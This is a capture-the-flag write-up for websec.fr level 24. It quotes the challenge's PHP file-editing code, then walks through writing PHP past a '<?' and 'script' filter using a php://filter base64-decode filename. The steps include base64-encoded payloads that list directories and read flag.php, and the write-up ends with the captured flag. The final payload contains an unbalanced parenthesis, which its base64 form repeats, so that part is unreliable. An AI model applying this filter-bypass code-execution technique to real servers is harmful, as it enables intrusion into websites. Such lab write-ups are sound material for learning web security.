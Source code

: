 # Level 24

1. First, lets check what is written in http://websec.fr/level24/source.php
2. Then, we are able to find out : 
    ```
    if (isset($_GET['p']) && isset($_GET['filename']) ) {
        $filename = $_GET['filename'];
        if ($_GET['p'] === "edit") {
            $p = "edit";
            if (isset($_POST['data'])) {
                $data = $_POST['data'];
                if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
                    file_put_contents($_GET['filename'], $data);
                    die ('<meta http-equiv="refresh" content="0; url=.">');
                }
            } elseif (file_exists($_GET['filename'])){
                $data = file_get_contents($_GET['filename']);
            }
        }
    }
    ```
    As you can see, we can type anything we want in the data without any script. Here : 
    ```
    if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
                file_put_contents($_GET['filename'], $data);
                die ('<meta http-equiv="refresh" content="0; url=.">');
            }
    ```
    So, we have to find out if there is any possibility to run a script on it and grab the flag out.
3. Check the code here : 
    ```
    <?php } elseif ($p === "edit") {
        echo "<div class='panel panel-default'>";
        echo "<div class='panel-heading'><h3 class='panel-title''>";
        echo "File <mark>$filename</mark>'s content: <a type='button' class='close' href='.'><span>&times;</span></a></h3>";
        echo "</div>";
        echo "<div class='panel-body'>";
        echo "<form action='?p=edit&filename=$filename' method='post'>";
        echo "<input type='hidden' name='filename' value='$filename'>";
        echo "<textarea class='form-control' name='data' rows='6'>" . htmlentities($data) . "</textarea><br>";
        echo "<a type='button' class='btn btn-default' href='.'>Cancel</a> ";
        echo "<button type='submit' class='btn btn-default' value='Submit'>Save changes</button>";
        echo "</form>";
        echo "</div></div>";
    } ?>
    ```
    We are able to find that we can change the the filename, which are able to reach our goal. After finding methods for a long time, the classic php filter vulnerability can reach our goal without doubt.
4. Now, we know what to do and the mission now is to figure out a filename.
    ```
    php://filter/convert.base64-decode/resource=filename.php
    ```
    So, the script up there allows us to decode a base64 file and read it, which allows us to run the script encoded in the script.
5. Next, we have to think of a php script that can find where is the flag. 
    ```
    <?php echo var_dump(scandir('../..'));?>
    ```
    "scandir" means "dir" or "ls", and "var_dump" are able to dump all data in a file.
    Then, encode it to a base64 format.
    ```
    PD9waHAgZWNobyB2YXJfZHVtcChzY2FuZGlyKCcuLi8uLicpKTs/Pg==
    ```
5. After we send the data, look up the code here : 
    ```
    $upload_dir = sprintf("./uploads/%s/", session_id());
    ```
    So, we are able to know where the website upload the file. Then, we can reach there to get our data : 
    ```
    http://websec.fr/level24/uploads/phpsessid/filename
    ```
    Now, we know that the name of the flag is "flag.php"
6. The final step, we have to write script that can read "flag.php".
    ```
    <?php echo file_get_contents('../../flag.php'));?>
    ```
    Base64 format : 
    ```
    PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnLi4vLi4vZmxhZy5waHAnKSk7Pz4=
    ```
    Then do exactly what we do before, and we can get the flag ~~~
7. Here is the flag : WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}
